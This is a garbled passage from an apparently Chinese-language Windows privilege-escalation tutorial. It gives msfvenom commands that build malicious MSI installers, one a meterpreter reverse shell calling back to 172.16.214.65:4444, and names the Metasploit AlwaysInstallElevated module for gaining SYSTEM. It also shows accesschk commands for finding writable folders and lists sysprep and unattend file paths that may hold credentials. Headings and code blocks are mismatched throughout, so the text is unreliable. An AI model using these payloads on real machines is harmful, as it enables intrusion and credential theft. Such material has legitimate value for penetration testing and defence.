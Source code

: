 直接双击或者命令行启动该 MSI 程序。

```
msfvenom -p windows/exec CMD=<命令> -f msi > calc.msi
```

msiexec 参数介绍：

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.214.65 lport=4444 –f msi -o shell.msi
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxSxRwGCcL83N9npI7KpPS3G37UtseLZaFRWTgxoekd0Rzm8VHHJtjwYlWAjJ6JAYQxJMIsibzaYA/640?wx_fmt=png)

### MSF

MSF 中可以使用 exploit/windows/local/always_install_elevated 模块，直接获取 SYSTEM 权限。

```
schtasks /query /fo list /v
```

```
.\accesschk.exe /accepteula
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxSxRwGCcL83N9npI7KpPS38NCnnUzTHofSuhKiasiacn2vibguYy7MviaHl5uIXUE9T9ibhouS8XtWrw/640?wx_fmt=png)

除了上面的操作外，还可以使用 msfvenom 生成 MSI 文件，从而以 SYSTEM 权限执行任意命令。

```
.\accesschk.exe -dqv "C:\Program Files"
```

```
.\accesschk.exe -uwdqs Users c:\ 
.\accesschk.exe -uwdqs "Authenticated Users" c:\
```

或者以 SYSTEM 权限上线

```
.\accesschk.exe -uwqs Users c:\*.*
.\accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

```
C:\sysprep.inf
C:\syspreg\sysprep.xml
C:\Windows\system32\sysprep.inf
C:\windows\system32\sysprep\sysprep.xml
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattended.xml
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\System32\Sysprep\Unattend.xml
C:\Windows\System32\Sysprep\Panther\Unattend.xml
```
